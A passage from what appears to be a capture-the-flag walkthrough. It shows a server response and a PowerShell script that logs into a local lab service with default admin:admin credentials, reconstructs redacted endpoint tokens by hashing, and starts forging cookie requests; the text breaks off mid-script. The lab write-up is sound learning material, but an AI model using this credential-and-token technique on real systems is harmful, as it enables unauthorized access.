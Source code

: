 ```
$response

```

> We get a valid 200 StatusCode:
> 
> ~~~
> StatusCode        : 200
> StatusDescription : OK
> Content           : \<h1>[*] Setting cookie attempts\</h1>
> RawContent        : HTTP/1.1 200 OK
>                     Server: Werkzeug/3.0.6
>                     Server: Python/3.10.12
>                     Date: Mon, 02 Dec 2024 04:51:10 GMT
>                     Set-Cookie: attempts=c25ha2VvaWwK01; Path=/
>                     Connection: close
>                     Content-Type: text/html; charset=utf-8
>                     C…
> Headers           : {[Server, System.String[]], [Date, System.String[]], [Set-Cookie, System.S
>                     tring[]], [Connection, System.String[]]…}
> Images            : {}
> InputFields       : {}
> Links             : {}
> RawContentLength  : 36
> RelationLink      : {}
> ~~~

Run the following script, which downloads 'token_overview.csv', unredacts the endpoints, and connects to each of the endpoints once, and finally saves the output in a file 'results.txt':

```
(iwr 'http://127.0.0.1:1225/token_overview.csv' -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin")) }).Content | Out-File output.txt

Function unredact {
  param($string);
  $endline = [byte[]]@(0x0A);
  $stringBytes = [System.Text.Encoding]::UTF8.GetBytes($string);
  $utf = $stringBytes + $endline;
  $mystream = [IO.MemoryStream]::new([byte[]][char[]]$utf);
  Get-FileHash -InputStream $mystream -Algorithm SHA256;
}
$unredacted_endpoints = @();
foreach($line in gc output.txt) {
  $md5 = ($line | Select-String -Pattern '([0-9a-fA-F]{32})').Matches.Value;
  if ($md5 -ne $null)
  {
    $sha256 = (unredact $md5).Hash;
    $unredacted_endpoints += @{md5=$md5;sha256=$sha256};
  }
}
echo $unredacted_endpoints

Function connect {
  param($params)

  $md5 = $params[0]
  $sha256 = $params[1]

  $session = [Microsoft.PowerShell.Commands.WebRequestSession]::new()
  $cookie = [System.Net.Cookie]::new('token',$md5);
  $session.Cookies.Add('http://127.0.0.1/',$cookie);
  $ProgressPreference = 'SilentlyContinue';
```